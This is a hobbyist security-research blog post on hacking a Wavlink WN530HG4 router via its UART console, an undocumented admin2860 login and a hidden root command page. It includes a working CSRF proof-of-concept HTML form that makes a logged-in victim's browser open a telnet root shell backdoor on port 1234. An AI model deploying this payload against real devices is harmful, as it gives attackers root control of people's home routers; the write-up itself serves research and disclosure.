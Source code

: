 +++
date = "2020-09-06"
title = "Router hacking!"
slug = "Hacking the Wavlink WN530HG4"
tags = [
]
categories = [
]
externalLink = ""
series = []
+++
*Hello.*

I like to hack SoHo (small-office home-office) routers for fun, and I’ve recently acquired the “WAVLINK AC1200 Dual Band WiFi Router,Gigabit Ethernet 1200Mbps High Speed Long Range 300 Mbps (2.4GHz)+867 Mbps (5GHz), Wireless Internet Router for Home Office”. You can take a look at the device for sale [here](https://www.amazon.com/WAVLINK-Extender-Coverage-1200Mbps-Wireless/dp/B07THZ9LBK/ref=sr_1_3?dchild=1&keywords=wavelink+router&qid=1599340954&sr=8-3).

This will be a three part blogpost. The first part  will be about publicly known vulnerabilities I found immediately. The second will be about anything I found on a deeper dive into the device’s file system. Post three will be a full audit of the device in accordance with OWASP IoT top vulnerabilities such as those listed [here](https://wiki.owasp.org/index.php/OWASP_Internet_of_Things_Project#tab=IoT_Top_10). 

To begin, a quick google search of the device brings up an interesting group of vulnerabilities:
* [/adm.cgi endpoint that processes commands without verifying their origin](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10971&scoretype=cvssv2)
* [unauthenticated system information disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-12266&scoretype=cvssv2)
* [unauthenticated administrator password disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10974&scoretype=cvssv2)

Unfortunately the actual exploitation of the issues is not well documented, so I decided to investigate this device to see for myself how they were exploited. First, I would need to interface with the device's on-board operating system.

To do that, we need to pop open the device and take a look at the circuit board. A lot of modern routers like to keep the top of its plastic shell in place with screws which they hide under some stickers. I found this router’s screws on the bottom of the plastic casing.

![Bottom of the router. The red light shining through is where the screw used to be!](../post2/1.jpg)

Once those are gone, we can set about looking at the router’s guts. Here’s a pic of the circuit board.

![The Wavlink router's circuit board.](../post2/2.jpg)

And look here, in the upper right corner. This is a debugging interface for the manufacturers who program this circuit board. These four ports here are a UART interface, which stands for universal asynchronous receiver-transmitter, a computer hardware device for asynchronous serial communication in which the data format and transmission speeds are configurable (more on that in transmission speed in a bit). 

![The UART interface on the circuit board.](../post2/3.jpg)

In layman’s terms, if we connect "something" that can talk to UART, and then have that same "something" also be able to talk to our computer, then we can use our computer to talk to the circuit board’s operating system. So what can we use to do that? We can use a [this](https://www.amazon.com/gp/product/B00IJXZQ7C/ref=ppx_yo_dt_b_search_asin_title?ie=UTF8&psc=1)!

![Yaaaarrrrrr, the buspirate!](../post2/4.jpg)

The HiLetgo FT232RL adapter is a hacker multi-tool that talks to electronic stuff, such as our UART port here. Connecting our adapter to the UART port requires us to solder some jumper wires from the UART interface… 

![Soldered jumper wires on the UART interface.](../post2/5.jpg)

...which will connect to the pointy end here on our adapter.

![Connecting our jumper wires from the board to the adapter.](../post2/6.jpg)

So, now that we have our adapter connected, let’s turn on the router and see what happens. We’ve set up our computer to receive the signal from our adapter, but we aren’t certain about the baud rate being used. In digital communications, symbol rate, also known as baud rate and modulation rate, is the number of symbol changes, waveform changes, or signaling events across the transmission medium per time unit using a digitally modulated signal or a line code (remember when we mentioned signal transmission speed earlier?). We don’t know how fast the signal coming from the board is to our adapter, so if we don’t tune the connection to our adapter with the proper baud rate, we will get a bunch of gobbledygook like in the following screenshot.

![Our adapter is tuned to the wrong baud rate, so it interprets the board's signal incorrectly.](../post2/7.jpg)

But, after some tedious trial and error, we have identified the baud rate as 57600. Once we modify our computer’s receive (the Linux program ‘screen’) to interpret the signal correctly, we get some nice, human-readable terminal output!

![After the baud rate is set correctly, we can see the UART output!](../post2/8.jpg)

Great! So if we wait long enough, we will eventually be asked for our Wavlink login. 

![What could the username/password be?](../post2/9.jpg)

But we don’t know the admin account name. Luckily, when we connect to the access point and configure the login password for the web app…

![Setting the router config password.](../post2/10.jpg)

We get this helpful message in the UART output.

![The UART output with a suspicious username parameter.](../post2/11.jpg)

Now, at no point during the WAP wizard was I asked for a username, but here we can see the username parameter of “admin2860” being transmitted through UART output. So, maybe we can just login with that?

![Will admin2860 work?](../post2/12.jpg)

Great! We've logged in and now have root access to the device. Let’s sniff around and see if we find anything really stupid, like those VulnMon entries we discovered earlier.

Eventually, we find the web directory, and there’s a lot in here. After some poking around, we find this (undocumented in the user manual!) webpage called “webcmd.shtml”.

![Sniffing around the router's filesystem.](../post2/13.jpg)

If we bring up “webcmd.shtml” in our browser we see...this.

![WTF???!!](../post2/14.jpg)

Wow, so we can just pass system commands to the underlying operating system! Does it work…?

![WTF???!!!?!?!?!?!?](../post2/15.jpg)

Wow, so we can read the systems password file, so everything runs as root (like the Administrator account in Windows). Nice one, Wavlink. If we inspect the web page’s HTML here, we can see that it makes a POST request to the “/cgi-bin/adm.cgi” endpoint. That endpoint is in one of the Vulnmon entries earlier in this post, so this must be vulnerable to Cross Site Request Forgery (CSRF).

![Inspecting the web page's HTML.](../post2/16.jpg)

In applications that are vulnerable to Cross Site Request Forgery (CSRF), an attacker can craft a malicious webpage that, when viewed by the victim, will force their browser to make a request to the vulnerable endpoint.

Earlier while I was digging through the filesystem, I found that the Telnet daemon, a legacy networking server, was installed on the Wavlink router. Let’s see if we can make a malicious webpage that fires off a request to “webcmd” from our victim that will force the router to open up a Telnet backdoor. 

Here’s what the malicious webpage might look like.

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/cgi-bin/adm.cgi" method="POST">
      <input type="hidden" name="page" value="sysCMD" />
      <input type="hidden" name="command" value="telnetd&#32;&#45;l&#32;&#47;bin&#47;sh&#32;&#45;p&#32;1234" />
      <input type="hidden" name="SystemCommandSubmit" value="Apply" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

And here’s the attack in action. Here, I’m simulating our victim, currently logged into the router…

![Our innocent victim, logged into their router.](../post2/17.jpg)

...but opening up our malicious webpage, which will send a request to the vulnerable endpoint in the context of the user’s session!

![Triggering the CSRF payload.](../post2/18.jpg)

![Our telnet backdoor, visible in the device's process list.](../post2/19.jpg)

And now, even though we get a 404 error from the web server, we can see (red box) that the telnet backdoor has been opened. We connect, and now we have pwned the device!

![Viewing the open port on a network scan.](../post2/20.jpg)

![Connecting to our telnet backdoor.](../post2/21.jpg)

That’s all for now! Stay tuned for part two where I review a bunch of executables and shell scripts on the Wavlink router for awful security practices!

*Goodbye.*
